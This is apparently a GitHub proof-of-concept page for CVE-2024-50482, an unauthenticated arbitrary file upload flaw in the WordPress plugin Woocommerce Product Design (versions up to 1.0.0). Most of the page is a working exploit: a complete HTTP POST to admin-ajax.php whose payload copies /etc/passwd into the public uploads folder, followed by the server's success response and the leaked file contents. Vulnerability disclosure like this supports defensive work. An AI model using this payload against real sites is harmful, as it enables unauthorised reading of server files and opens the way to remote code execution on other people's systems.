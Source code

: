 # CVE-2024-50482
Woocommerce Product Design &lt;= 1.0.0 - Unauthenticated Arbitrary File Upload

# Description:
The Woocommerce Product Design plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in all versions up to, and including, 1.0.0. This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's server which may make remote code execution possible.

```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50482
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: woo-product-design
```

POC
---

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kubernetes.docker.internal/wp-admin/plugins.php?plugin_status=all&paged=1&s
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 53
Origin: http://kubernetes.docker.internal
Connection: keep-alive

action=pc_added_uploaded_image&file[path]=/etc/passwd
```

Response
---

```
{
  "message" : "Image Uploaded Successfully",
  "url" : "http://kubernetes.docker.internal/wp-content/uploads/wcpc/images/uploaded_images/passwd",
  "path" : "/var/www/html/wp-content/uploads/wcpc/images/uploaded_images/passwd",
  "status" : "success"
}
```

Example result

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
